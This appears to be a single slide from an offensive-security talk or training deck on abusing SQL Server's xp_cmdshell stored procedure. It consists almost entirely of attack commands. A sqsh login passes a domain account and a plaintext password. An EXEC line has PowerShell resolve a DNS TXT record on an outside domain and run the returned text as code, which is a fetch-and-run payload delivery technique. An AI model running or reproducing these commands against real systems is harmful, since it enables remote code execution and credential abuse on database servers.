

Database - Stored Procedure - xp_cmdshell
sqsh -S 192.168.3.22 -U corp1\\tboss -P admin#123

EXEC master..xp_cmdshell 'powershell "$text = Resolve-DnsName hax.seamlessintelligence.com.au -Type TXT; powershell $text.strings[1]“’

go